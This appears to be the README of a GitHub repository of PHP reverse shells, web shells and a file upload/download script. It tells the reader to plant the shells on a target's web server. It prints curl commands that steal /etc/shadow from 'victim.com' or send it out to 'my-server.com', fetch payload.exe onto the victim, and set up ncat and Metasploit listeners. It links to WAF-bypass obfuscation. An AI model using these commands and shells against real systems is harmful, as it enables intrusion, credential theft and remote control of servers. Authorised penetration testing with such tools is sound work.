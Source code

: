 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect the underlying OS.

Works with both, `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## Table of Contents

* [Reverse Shells](#reverse-shells)
* [Web Shells](#web-shells)
* [File Upload/Download Script](#file-uploaddownload-script)
	* [Case 1: Upload the Script to the Victim’s Server](#case-1-upload-the-script-to-the-victims-server)
	* [Case 2: Upload the Script to Your Server](#case-2-upload-the-script-to-your-server)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## Reverse Shells

[/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) requires PHP v5.0.0 or greater.

[/src/reverse/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the scripts as necessary.**

Copy [/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## Web Shells

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for old versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

## File Upload/Download Script

Check the [simple PHP file upload/download script](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/files.php) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you must [URL encode](https://www.urlencoder.org) the file path, and don't forget to specify the output file if using cURL.

When uploading a file, don't forget to specify `@` before the file path.

Depending on the server configuration, downloading a file through HTTP GET request parameter might not always work, instead, you will have to hardcore the file path in the script.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's web server with your preferred web browser, or use cURL from you PC.

Upload a file to the server's web root directory from your PC:

```fundamental
curl -skL -X POST https://victim.com/files.php -F file=@/root/payload.exe
```

Download a file from the server to your PC:

```fundamental
curl -skL -X GET https://victim.com/files.php?file=/etc/shadow -o shadow
```

If you elevated your initial privileges within your reverse shell, this script might not have the same privileges as the shell. In that case, to download a certain file, you might need to copy the file to the web root directory and set the necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server's web root directory:

```fundamental
curl -skL -X POST https://my-server.com/files.php -F file=@/etc/shadow
```

Download a file from your server's web root directory to the victim's PC:

```fundamental
curl -skL -X GET https://my-server.com/files.php?file=/root/payload.exe -o payload.exe

curl -skL -X GET https://my-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
